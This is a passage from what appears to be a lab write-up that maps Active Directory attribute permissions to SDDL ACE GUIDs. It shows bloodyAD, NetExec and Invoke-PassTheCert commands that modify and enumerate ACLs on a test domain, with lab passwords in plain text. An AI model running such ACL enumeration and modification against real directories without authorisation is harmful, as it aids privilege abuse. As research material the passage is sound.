
</div>

Granting that WRITE permission ALONE to `Des DC. CRYPTATOR` results in the following newly defined SDDL string in the `John JD. DOE`'s `nTSecurityDescriptor`:

```powershell
$SD.GetSddlForm([System.Security.AccessControl.AccessControlSections]::All)
O:S-1-5-21-2539905369-2457893589-779357875-512G:S-1-5-21-2539905369-2457893589-779357875-512D:AI(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-517)(OA;CI;WP;bf967950-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1445)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a54-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a56-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;;AU)(OA;;RP;e48d0154-bcf8-11d1-8702-00c04fb96050;;AU)(OA;;RP;77b5b886-944a-11d1-aebd-0000f80367c1;;AU)(OA;;RP;e45795b3-9455-11d1-aebd-0000f80367c1;;AU)(OA;;RPWP;77b5b886-944a-11d1-aebd-0000f80367c1;;PS)(OA;;RPWP;e45795b2-9455-11d1-aebd-0000f80367c1;;PS)(OA;;RPWP;e45795b3-9455-11d1-aebd-0000f80367c1;;PS)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2539905369-2457893589-779357875-512)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AO)(A;;RC;;;AU)(A;;LCRPLORC;;;PS)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2539905369-2457893589-779357875-526)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2539905369-2457893589-779357875-527)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;PS)(OA;CIID;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2539905369-2457893589-779357875-519)(A;CIID;LC;;;RU)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;BA)S:AI(OU;CIIOIDSA;WP;f30e3bbe-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(OU;CIIOIDSA;WP;f30e3bbf-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)
```

[Comparing](https://meldmerge.org/) our previous and that new SDDL String shows that ONE new ACE has been populated (especially the one with [a non-default RID, i.e. an SID ending with 4 digits, here `-1445`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-azod/ecc7dfba-77e1-4e03-ab99-114b349c7164)):

```powershell
(OA;CI;WP;bf967950-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1445)
```

If we do the same for another user (i.e. grant WRITE permission ONLY against the `John JD. DOE`:`description` attribute), it would add the following SDDL entry:

```powershell
(OA;CI;WP;bf967950-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1103)
```

> See the ACE is exactly the same, except the granted principal's SID changed, here from RID `-1445` to `-1103`).

Last (but definitely not least!), we know for sure that the previously *unknown* Access Right GUIDs (i.e. `ObjectAceType` GUIDs) were these advanced grantable permissions. Basically, the `ObjectAceType` with GUID `bf967950-0de6-11d0-a285-00aa003049e2` is the one pin-pointing the `description` attribute, EXACTLY.
Indeed, if we look at the WRITE permissions of `Des DC. CRYPTATOR` against the target `John JD. DOE`, we see it has no privileges, EXCEPT our previously set WRITE permission over `description`, shown as *Special*:

<div align="center">

</div>

Therefore, we can now update this attribute ONLY:

```powershell
jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'dcryptator' -p 'DC_P@ssw0rd123!' set object 'jdoe' 'description' -v 'W4nn4B3Speci4l?!'
[+] jdoe's description has been updated
```

```powershell
jamarir@kali:~$ jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'dcryptator' -p 'DC_P@ssw0rd123!' set object 'jdoe' 'initials' -v 'AA'
[...]
badldap.commons.exceptions.LDAPModifyException: insufficientAccessRights for CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL (Attr) — Reason:(ERROR_DS_INSUFF_ACCESS_RIGHTS) Insufficient access rights to perform the operation.
```

```powershell
jamarir@kali:~$ nxc ldap 192.168.56.202 -d 'jamad.local' -u 'dcryptator' -p 'DC_P@ssw0rd123!' --query '(&(objectClass=person)(objectCategory=user)(sAMAccountName=jdoe))' '*'
LDAP        192.168.56.202  389    DC02             cn                   John JD. DOE
LDAP        192.168.56.202  389    DC02             sn                   DOE
LDAP        192.168.56.202  389    DC02             description          W4nn4B3Speci4l?!
LDAP        192.168.56.202  389    DC02             givenName            John
LDAP        192.168.56.202  389    DC02             initials             JD
LDAP        192.168.56.202  389    DC02             distinguishedName    CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL
[...]
```

> As a side note, the provided `AD_Classes_and_Attributes__Windows_Server_v1903.zip` archive, downloaded from [the Microsoft's `[MSFT-ADSCHEMA]`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/53ac3882-2fb1-4184-a6cf-a749874fae88) ([here](https://www.microsoft.com/en-us/download/details.aspx?id=23782)) contains a list of all possible attributes. In particular, we may look for the `lDAPDisplayName:` field to pin-point each attribute's details. The above [`bloodyAD`](https://github.com/CravateRouge/bloodyAD)'s command uses that `lDAPDisplayName` field.


GG WP !

### Kinda Writable Attribute ?

Note, however, that some WRITE permissions, even if checked (hence granted) to a principal from the GUI, won't be writable. 
For instance, if we grant `Nam NA. ATOR` WRITE privilege against the `John JD. DOE`:`name` attribute (The lowercase one...):

<div align="center">

</div>

The following ACE entry is added into the SDDL string, as we already analyzed:

```powershell
(OA;CI;WP;bf967a0e-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1446)
```

However, we still CAN'T write it, erroring-out `ERROR_DS_CANT_MOD_SYSTEM_ONLY`:

```powershell
jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'nator' -p 'NA_P@ssw0rd123!' set object 'jdoe' 'name' -v 'Y4Sp3c14l?!'
[...]
badldap.commons.exceptions.LDAPModifyException: notAllowedOnRDN for CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL (Attr) — Reason:(ERROR_DS_CANT_MOD_SYSTEM_ONLY) The attribute cannot be modified because it is owned by the system.
```

And the same behavior can be seen when granting EVERY right against EVERY attribute:

<div align="center">

</div>

Therefore, it sounds that not every attribute can be written.

### Readable Attribute

Using the same methodology, we may find out that granting a principal with READ permission ONLY over the `description` attribute of `John JD. DOE` adds the following ACE entry in its `nTSecurityDescriptor`'s SDDL String:

```powershell
(OA;CI;RP;bf967950-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1428)
```

The GUID is exactly the same, i.e. we're targeting the `description` attribute (`bf967950-0de6-11d0-a285-00aa003049e2`). However, the [ACE permissions](https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings) changed from `WP` (Write Property) to `RP` (Read Property).
Lastly, we may confirm that these GUIDs are properly set into the inbound ACEs of the targeted object using:

- [NetExec](https://www.netexec.wiki/):

```powershell
jamarir@kali:~$ nxc ldap 192.168.56.202 -d 'jamad.local' -u 'User' -p 'USR_P@ssw0rd123!' -M daclread -o TARGET='jdoe' ACTION=read
LDAP        192.168.56.202  389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:JAMAD.LOCAL)
LDAP        192.168.56.202  389    DC02             [+] jamad.local\User:USR_P@ssw0rd123! (Pwn3d!)
DACLREAD    192.168.56.202  389    DC02             Be careful, this module cannot read the DACLS recursively.
DACLREAD    192.168.56.202  389    DC02             Target principal found in LDAP (CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL)
DACLREAD    192.168.56.202  389    DC02             ACE[0] info
DACLREAD    192.168.56.202  389    DC02                 ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD    192.168.56.202  389    DC02                 ACE flags                 : CONTAINER_INHERIT_ACE
DACLREAD    192.168.56.202  389    DC02                 Access mask               : ReadProperty
DACLREAD    192.168.56.202  389    DC02                 Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD    192.168.56.202  389    DC02                 Object type (GUID)        : Description (bf967950-0de6-11d0-a285-00aa003049e2)
DACLREAD    192.168.56.202  389    DC02                 Trustee (SID)             : wdelheg (S-1-5-21-2539905369-2457893589-779357875-1428)
[...]
```

- Or [Invoke-PassTheCert](http://localhost:1337/):

```powershell
PS > Invoke-PassTheCert -NoBanner -Action 'GetInboundACEs' -LdapConnection $LdapConnection -Identity 'CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL' |?{$_.AceQualifier -eq 'AccessAllowed' -and $_.ObjectAceType -eq 'bf967950-0de6-11d0-a285-00aa003049e2'}
[...]
ObjectAceTypeName      :
AccessMaskNames        : ReadProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : bf967950-0de6-11d0-a285-00aa003049e2
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 16
SecurityIdentifier     : S-1-5-21-2539905369-2457893589-779357875-1428
AceType                : AccessAllowedObject
AceFlags               : ContainerInherit
IsInherited            : False
InheritanceFlags       : ContainerInherit
PropagationFlags       : None
AuditFlags             : None
[...]
```

> Notice `ObjectAceTypeName` SHOULD contain `description`, as per `ADAttributeGUIDs.csv`... (*I mean, it's in my TODO list!*)

GG WP !

### Granting Every Rights (Except FullControl)

Finally, we may see how is the SDDL String's ACE formated whenever every right (except `FullControl`, as we already saw previously it corresponds to `GenericAll`) is provided.
Once provided:

<div align="center">

</div>

```powershell
PS > Invoke-PassTheCert -Action 'GetInboundACEs' -LdapConnection $LdapConnection -Identity 'CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL' |?{$_.AceQualifier -eq 'AccessAllowed' -and $_.SecurityIdentifier -match 'S-1-5-21-(\d+-){3}1447'}
[...]
AccessMaskNames    : WriteOwner, WriteDacl, GenericRead, Delete, ListObject, DeleteTree, WriteProperty, Self, DeleteChild, CreateChild
BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983423
SecurityIdentifier : S-1-5-21-2539905369-2457893589-779357875-1447
AceType            : AccessAllowed
AceFlags           : ContainerInherit
IsInherited        : False
InheritanceFlags   : ContainerInherit
PropagationFlags   : None
AuditFlags         : None
```

> Note: the highlighted `Read all properties` (resp. `Write all properties`) boxes are actually the same. In other words, checking one `Read all properties` (resp. `Write all properties`) and/or the other results in the exact same provided ACEs.

The SDDL String contains an additionnal entry, namely:

```powershell
PS > Invoke-PassTheCert -Action 'GetInboundSDDLs' -LdapConnection $LdapConnection -ObjectDN 'CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL' |%{$_ -replace '\(',"`n  " -replace '\)',''}
O:S-1-5-21-2539905369-2457893589-779357875-512G:S-1-5-21-2539905369-2457893589-779357875-512D:AI
  [...]
  A;CI;CCDCLCSWRPWPDTCRSDRCWDWO;;;S-1-5-21-2539905369-2457893589-779357875-1447
  [...]
```

> Yep, I just implemented the `GetInboundSDDLs` action, copy-pasting the above `... $SD.GetSddlForm ...` code.

In a nutshell, `CCDCLCSWRPWPDTCRSDRCWDWO` is (?) *kinda* like an `GenericAll` SDDL ACE, where no LDAP attribute GUID needs to be specified, as the rights are broadly given against the targeted object.


## Grabbing All SDDL's ACE Right GUIDs

Now come the tricky part: How can we grab an exhaustive list of ACE GUIDs (e.g. `bf967950-0de6-11d0-a285-00aa003049e2` for `description`, etc.) ?
Fortunately, it sounds that [NetExec](https://www.netexec.wiki/) knows the way to go, as it pin-pointed `Description` in its `Object type (GUID)` field.
Indeed, [as NetExec links](https://github.com/Pennyw0rth/NetExec/blob/652fc1225376f0f4531bb59efdcf8c7cce2f3691/nxc/modules/daclread.py#L99-L106), all the ATTRIBUTES GUIDs are actually listed into [`the Microsoft documentation`](https://learn.microsoft.com/en-us/windows/win32/adschema/attributes-all) !

> Note that the the link DOES NOT contain the [Extended Rights](https://learn.microsoft.com/en-us/windows/win32/adschema/control-access-rights) we saw earlier, such as [Validated-SPN](https://learn.microsoft.com/en-us/windows/win32/adschema/validated-writes), or [`DS-Replication-Get-Changes-All`](https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights)

<div align="center">

</div>

Hopefully, [Bastien Perez](https://itpro-tips.com/liste-des-guid-du-schema-active-directory/) did the painful parsing for us, in a CSV format (provided here into `ADAttributeGUIDs.csv`).

> I ReGEX'ly added a link reference to the documentation for each attribute. Naturally, among these nearly 4k lines, [some links](https://learn.microsoft.com/en-us/windows/win32/adschema/a-addrType) might be broken, [while others](https://learn.microsoft.com/en-us/windows/win32/adschema/a-servicePrincipalName) work fine.


## Granting *Almost* Every Rights

Now, if we try to grant every per-LDAP Attribute right, without checking the `all properties` boxes:

<div align="center">

</div>

We'd have a prompt warning us that the `John JD. DOE`'s `nTSecurityDescriptor` would HUGELY be populated (as we're granting each and every right independently):

<div align="center">

</div>

<div align="center">

</div>

Resulting in QUITE NUMEROUS ACEs !!

> The below's output exhaustively shows the ACEs granted to principal with RID 1447 (i.e. `All AA. ATOR`):

```powershell
PS > Invoke-PassTheCert -NoBanner -Action 'GetInboundSDDLs' -LdapConnection $LdapConnection -ObjectDN 'CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL' |%{($_ -replace '\(',"`n  " -replace '\)','').Split("`n") } |Select-String -Pattern '1447$'

  OA;CI;RP;7469b704-edb0-4568-a5a5-59f4862c75a7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;a637d211-5739-4ed1-89b2-88974548bc59;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;2b702515-c1f7-4b3b-b148-c0e4c6ceecb4;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;f547511c-5b2a-44cc-8358-992a88258164;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;bf967a1c-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;1a3d0d20-5844-4199-ad25-0f5039a76ada;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;ececcd20-a7e0-4688-9ccf-02ece5e287f5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;f85b6228-3734-4525-b6b7-3f3bb220902c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;d5006229-9913-2242-8b17-83761d1e0e5b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;ff155a2a-44e5-4de0-8318-13a58988de4f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;5e6cf031-bda8-43c8-aca4-8fee4127005b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;a0dcd536-5158-42fe-8c40-c00a7ad37959;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;5dd68c41-bfdf-438b-9b5d-39d9618bf260;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;9e6f3a4d-242c-4f37-b068-36b57f9fc852;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;df446e52-b5fa-4ca2-a42f-13f98a526c8f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;60234769-4819-4615-a1b2-49d2f119acb5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;e8b2c971-a6df-47bc-8d6f-62770d527aa5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;bf967991-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;7bd76b92-3244-438a-ada6-24f5ea34381e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;5a5661a1-97c6-544b-8056-e430fe7bc554;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;998c06ac-3f87-444e-a5df-11b03dc8a50c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;94f6f2ac-c76d-4b5e-b71f-f332c3e93c22;;S-1-5-21-2539905369-2457893589-779357875-1447
